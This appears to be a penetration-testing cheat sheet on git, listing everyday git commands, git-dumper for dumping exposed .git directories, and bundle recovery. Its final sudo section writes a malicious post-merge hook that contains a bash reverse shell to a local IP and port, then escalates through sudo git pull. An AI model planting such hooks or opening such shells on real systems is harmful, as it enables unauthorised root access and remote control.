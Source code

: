 ```yaml
---
title: "git"
date: 2024-6-28
tags: ["git", "git-dumper", "sudo", "privesc"]
---
```


### Basic Commands

```console
# Show status
git status
```

```console
# Reset the current branch to a previous commit
git reset --hard
```

```console
# Show information about files
git ls-files --stage
```

```console
# Show current branch
git branch
```

```console
# Show commits
git log <BRANCH_NAME> --oneline
```

```console
# Show diff, a and b are commit hash
# a is the older commit
git diff <A_COMMIT_HASH> <B_COMMIT_HASH>
```

```console
# Show commit
git show <COMMIT_HASH>
```

---

### Git Tools

{{< tab set1 tab1 active >}}git-dumper{{< /tab >}}
{{< tab set1 tab2 >}}git-bundle{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
git-dumper <TARGET>/.git result/
```

<small>*Ref: [Download git-dumper](https://github.com/arthaud/git-dumper)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
# List all bundles
find . -type f -exec file {} \;
```

```console
# Get bundle
git clone -b master @hashed/ab/cd/<HASH>.bundle
```

{{< /tabcontent >}}

---

### SUDO

```console
# Copy target project
cp -r /var/www/html/project .
```

```console
# Create a malicious post-merge
echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/<LOCAL_IP>/<LOCAL_PORT> 0>&1' > ./project/.git/hooks/post-merge
```

```console
# Run
sudo /usr/bin/git pull
```

<small>*Note: Make changes to the project to make the pull work*</small>

